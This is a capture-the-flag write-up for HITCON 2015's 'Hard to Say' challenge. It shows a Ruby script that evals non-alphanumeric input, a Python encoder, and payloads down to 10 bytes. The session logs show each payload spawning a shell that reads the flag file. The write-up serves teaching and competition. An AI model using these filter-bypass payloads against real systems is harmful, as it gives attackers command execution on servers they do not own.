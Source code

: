 ```yaml
---
title: "HITCON 2015 Qualifiers - Hard to Say (Misc)"
header:
  overlay_image: /assets/images/hitconquals2015/hardtosay/ruby.png
  overlay_filter: 0.5
tags:
  - hitconquals2015
  - writeup
  - misc
---
```


Execute arbitrary non-alphanumeric ruby code with length limitations.

## Challenge Description

#### Description

```
Ruby on Fails.
FLAG1: nc 54.199.215.185 9001
FLAG2: nc 54.199.215.185 9002
FLAG3: nc 54.199.215.185 9003
FLAG4: nc 54.199.215.185 9004

hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb
```

## Solution

We are given a simple ruby file:

```ruby
#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

The script takes an argument: the accepted input length limit. First, the binary
checks if the input is smaller than the limit, then it checks if it contains
alphanumeric characters. If it does, it exits. Otherwise, it evaluates the
input.

```shell
$ ruby hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb  100
Hi, I can say 100 bytes :P
$.
I think size = 2 is ok to me.
1
```

We have four flags to get for this challenge. Let's try to get the first one:

```shell
$ nc 54.199.215.185 9001
Hi, I can say 1024 bytes :P
""
I think size = 2 is ok to me.
```

It gives us 1024 bytes to work with. Looking online, we find that there's a [web
page](http://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/)
that discusses non-alphanumeric ruby.

The basic gist of the strategy is to use these four primitives:

1. The special variable `$.` (line number) gives us the number 1
2. Shovelling numbers into an empty quote gives strings. `"" << 65 << 66` gives
   `"AB"`, for example.
3. `#{<to be evaluated>}` lets us evaluate something as text
4. Backticks let us run what's within it as a shell command

So, we wrote a script to generate our non-alphanumeric ruby code.

```python
def convert(s):
    # Convert the string to list of nums we need
    needed = [ord(i) for i in s]
    needed_set = list(set(needed))

    # Get our identity
    ident = "$_ = $$/$$;"
    attack_string = ident

    # Generate our set of needed numbers
    sigils = {}
    for i in range(len(needed_set)):
        curr_sigil = "@" + "_"*(i+1)
        curr_decl = "%s = %s;" % (curr_sigil, "+".join(["$_"]*needed_set[i]))
        attack_string += curr_decl
        sigils[needed_set[i]] = curr_sigil

    # Generate the string shovel
    shovel_sigils = [sigils[i] for i in needed]
    shovel = "$__ = '' << %s;`#{$__}`" % "<<".join(shovel_sigils)
    attack_string += shovel

    return attack_string

def main():
    attack = 'sh'
    exploit = convert(attack)
    print len(exploit)
    print exploit

if __name__ == "__main__":
    main()
```

Running the script:

```shell
$ python encode1.py
707
$_ = $$/$$;@_ = $_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_;@__ = $_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_;$__ = '' << @__<<@_;`#{$__}`
```

Attacking the server:

```shell
$ nc 54.199.215.185 9001
Hi, I can say 1024 bytes :P
$_ = $$/$$;@_ = $_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_;@__ = $_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_+$_;$__ = '' << @__<<@_;`#{$__}`
I think size = 707 is ok to me.
ls -la 1>&2
total 12
drwxr-xr-x 2 nobody nogroup    4096 Oct 16 12:59 .
drwxr-xr-x 8 nobody nogroup    4096 Oct 16 12:07 ..
----r----- 1 nobody 4000000001   58 Oct 16 12:59 flag
cat flag 1>&2
hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}
```

Now, let's try the second server.

```shell
$ nc 54.199.215.185 9002
Hi, I can say 64 bytes :P
[]
I think size = 2 is ok to me.
[]
```

Well, our script will not work for this one, so let's handcraft a solution. First, we need to investigate a little.

```shell
$ nc 54.199.215.185 9002
Hi, I can say 64 bytes :P
$:
I think size = 2 is ok to me.
["/home/shik/.rbenv/versions/2.2.3/lib/ruby/site_ruby/2.2.0", "/...
```

We could use the strings in this array. So let's split it into two parts:

1. Get a reference to a string. `(_=$:[$.])`
2. Take the "s" and the "h", then run as a shell command. (`` `#{_[$$+$.+$.]+_[$.]}` ``)

So, let's get the flag:

```shell
$ nc 54.199.215.185 9002
Hi, I can say 64 bytes :P
_=$:[$.];`#{_[$$+$.+$.]+_[$.]}`
I think size = 31 is ok to me.
cat flag 1>&2
hitcon{Ruby in Peace m(_ _)m}
```

We can reuse our solution for the third flag because it requires 36 bytes:

```shell
$ nc 54.199.215.185 9003
Hi, I can say 36 bytes :P
_=$:[$.];`#{_[$$+$.+$.]+_[$.]}`
I think size = 31 is ok to me.
cat flag 1>&2
hitcon{My cats also know how to code in ruby :cat:}
```

Now, we didn't manage to solve for the fourth server (which had a limit of 10) but we learnt of two very cool solutions over IRC:

```shell
11:32 < amona> anyone has a sample of a less than 10 char solution for hard to say 4
11:32 < binary_raider> `$#{~-$.}`
11:32 < amona> ahhh
11:32 < amona> unary complement
11:34 < hellman> amona: also ~// works (9 char solution)
```
Thanks to binary\_raider and hellman for these solutions!

```shell
$ nc 54.199.215.185 9004
Hi, I can say 10 bytes :P
`$#{~-$.}`
I think size = 10 is ok to me.
cat flag 1>&2
hitcon{It's hard to say where ruby went wrong QwO}
```

```shell
$ nc 54.199.215.185 9004
Hi, I can say 10 bytes :P
`$#{~//}`
I think size = 9 is ok to me.
cat flag 1>&2
hitcon{It's hard to say where ruby went wrong QwO}
````

Mind blowingly elegant solutions :)

Flag 1: **hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}**

Flag 2: **hitcon{Ruby in Peace m(\_ \_)m}**

Flag 3: **hitcon{My cats also know how to code in ruby :cat:}**

Flag 4: **hitcon{It's hard to say where ruby went wrong QwO}**

